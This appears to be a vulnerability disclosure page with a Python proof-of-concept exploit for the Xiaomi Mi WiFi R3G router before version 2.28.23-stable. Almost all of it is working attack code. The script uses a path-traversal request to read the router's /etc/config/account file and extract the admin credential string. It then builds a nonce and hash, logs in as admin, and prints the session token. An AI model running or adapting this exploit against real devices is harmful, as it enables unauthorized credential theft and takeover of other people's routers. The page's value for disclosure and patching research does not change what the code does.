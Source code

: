 <languages />

漏洞影響
--------

Xiaomi Mi WiFi R3G 2.28.23-stable previous version

POC
---

### arbitrary_file_read_vulnerability.py

    import os
    import re
    import time
    import base64
    import random
    import hashlib
    import requests
    from Crypto.Cipher import AES

    # proxies = {"http":"http://127.0.0.1:8080"}
    proxies = {}

    def get_mac():
        ## get mac
        r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
        mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
        # print(mac)
        return mac

    def get_account_str():
        ## read /etc/config/account
        r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
        print(r1.text)
        account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
        return account_str

    def create_nonce(mac):
        type_ = 0
        deviceId = mac
        time_ = int(time.time())
        rand = random.randint(0,10000)
        return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

    def calc_password(nonce, account_str):
        m = hashlib.sha1()
        m.update((nonce + account_str).encode('utf-8'))
        return m.hexdigest()

    mac = get_mac()
    account_str = get_account_str()
    ## login, get stok
    nonce = create_nonce(mac)
    password = calc_password(nonce, account_str)
    data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
    r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login",
        data = data,
        headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
        proxies=proxies)
    # print(r2.text)
    stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
    print("stok="+stok)

參考
----

<https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md>